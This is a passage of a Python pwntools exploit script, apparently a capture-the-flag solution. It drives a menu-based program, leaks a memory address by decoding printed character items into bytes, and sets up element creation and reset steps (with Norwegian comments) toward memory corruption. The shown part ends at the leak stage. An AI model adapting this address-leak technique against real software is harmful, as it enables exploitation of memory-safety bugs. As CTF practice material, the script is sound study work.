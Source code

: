 ```py

    data = io.recvuntil(b"1. print", drop=True).strip()
    lines = [l for l in data.split(b"\n") if l.startswith(b"i:")]

    found = []

    for i, l in enumerate(lines):
        if i < 2:
            continue
        if len(found) == 6:
            break

        idx, item = l.split(b" ", maxsplit=1)
        contents = item.removeprefix(b"item:")

        # print(i, l, contents)

        contents = contents.decode("utf-8")
        # raw = contents.encode("utf-16")
        raw = ord(contents)
        assert 0 <= raw <= 0xFF
        # print(i, l, contents, hex(raw))

        found.append(raw)
    
    found = bytes(found)
    return int.from_bytes(found, byteorder="big")

def remove(idx):
    io.recvuntil(b"> ")
    io.sendline(b"4")
    io.sendline(str(idx))

def write2file(file, header):
    io.recvuntil(b"> ")
    io.sendline(b"5")
    io.recvuntil(b"filename?")
    io.sendline(file)
    io.recvuntil(b"enter collection name:")
    io.sendline(header)
    

io = start()

#reset()
#create("u32")
#print_elements()
#io.interactive()

# 1. is_empty != 'n'
reset()
for _ in range(4):
    create("char")

# 2. fyll
for _ in range(16):
    create("char")

# 3. reset
reset()

# 4. lag u32 (skal lese addressen via chars over)
assert len(print_elements()) == 20
```
